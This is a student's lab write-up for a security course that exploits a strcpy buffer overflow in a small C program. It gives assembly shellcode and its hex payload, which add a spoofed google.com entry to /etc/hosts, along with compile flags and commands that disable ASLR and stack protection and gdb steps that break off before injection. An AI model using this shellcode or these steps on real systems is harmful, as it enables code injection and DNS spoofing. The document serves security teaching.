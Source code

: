 # Lab #1,22110034, Nguyen Gia Huy, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Anwser 1:**

## 1. Compile asm program and C program to executable code:

*Compile the C program with `gcc`:*

```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

*Assemble the shellcode:*

```bash
nasm -f elf32 sh.asm -o sh.o
```

*Link the object file to create an executable:*

```bash
ld -m elf_i386 -o sh sh.o
```

Generate the Hex String:

```
for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

Result:

```bash
\x31\xc9\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d
```

Estimate Buffer Size:

![image-20241022100650845](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022100650845.png)

## 2. Prepare for the attack

Turn off OS's address space layout randomization:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

> The password for seed: dees

Result:

![image-20241022111228390](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022111228390.png)

Creat link to zsh:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## 3. Conducting the attack

Load `vuln.out` in `gdb`:

```bash
gdb -q vuln.out
```

Disassemble `main` function:

```bash
gdb-peda$ disas main
```

Result:

![image-20241022110847287](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022110847287.png)

From the above result, we see that the address after the `strcpy` instruction is `0x08048423`. So we put break point at this address.

```bash
b *0x08048423
```

![image-20241022112205737](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022112205737.png)
